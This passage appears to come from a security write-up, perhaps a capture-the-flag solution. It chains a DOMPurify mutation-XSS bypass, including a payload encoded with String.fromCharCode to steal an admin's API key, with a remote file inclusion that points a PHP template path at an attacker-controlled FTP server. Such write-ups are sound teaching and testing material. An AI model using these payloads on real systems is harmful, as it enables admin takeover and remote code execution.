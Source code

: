 It is possible for us to bypass this XSS mitigation useing a techinque overviewed here: [https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes)

By using a payload like the following:

```html
<form id="x "><svg><style><a id="</style><img src=x onerror=alert()>"></a></style></svg></form><input form="x" name="namespaceURI">
```

However it is not possible to add strings to our JS in the payload since it gets passed through PHP's JSON parser, so in order to bypass this limitation we need to use JS `String.fromCharCode` to convert each character of our js payload to an integer and re-encode it to a string on runtime.

```html
<form id=\\"x \\"><svg><style><a id=\\"</style><img src=x onerror=eval(String.fromCharCode(97)+String.fromCharCode(108)+String.fromCharCode(101)+String.fromCharCode(114)+String.fromCharCode(116)+String.fromCharCode(40)+String.fromCharCode(41))>\\"></a></style></svg></form><input form=\\"x\\" name=\\"namespaceURI\\">
```

Also we have to add `\\` to every quote to get escaped by JSON.

`Impact`: Admin-level XSS. The attacker’s script runs in the admin’s browser, capturing the admin’s credentials (API key) and making privileged requests.

### Updating template_path => FTP RFI

```php
// POST /api/admin/appSettings
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
    $data = json_decode($request->getBody()->getContents(), true);
    ...
    $stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?)
        ON CONFLICT(key) DO UPDATE SET value = excluded.value");
    foreach ($data as $key => $value) {
        $stmt->execute([$key, $value]);
    }
    if (isset($data['template_path'])) {
        $GLOBALS['settings']['templatesPath'] = $data['template_path'];  // (E)
    }
    ...
})->add($adminApiKeyMiddleware);
```

##### Where It Goes Wrong

 - (E) The code updates a global `$GLOBALS['settings']['templatesPath']` directly from user input. If an admin’s API key is used, the attacker can set template_path to something like:
 ```
 ftp://<attacker-server>:2121
 ```

`Impact`: This is a classic Remote File Inclusion (RFI). The next time the app tries to render a template, it fetches the file from that remote location.
